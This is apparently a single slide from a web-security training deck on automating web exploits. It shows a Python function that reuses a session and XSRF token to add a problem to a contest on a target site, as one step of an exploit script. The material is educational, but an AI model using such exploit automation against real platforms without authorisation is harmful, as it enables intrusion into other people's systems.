

Web (cont.)
Basic Web : Automating Web Exploits
Next, we add a problem to the contest
def add_problem_to_contest(target_url, s, problem_id, contest_id, contest_name):
    data_json = {"problem": problem_id, "contestid": contest_id}
    res = s.post(target_url + f"/competition/{contest_name}/mange/question/add",
            headers={"X-XSRF-TOKEN": unquote(s.cookies["XSRF-TOKEN"])},
            json=data_json, proxies=PROXIES)
    res = res.json()
    if("Question has been added successfully" == res["description"]):
        print("[+] The problem has been added to contest")
    else:
        print("[-] Failed to add problem to contest :(")
        sys.exit(-1)
37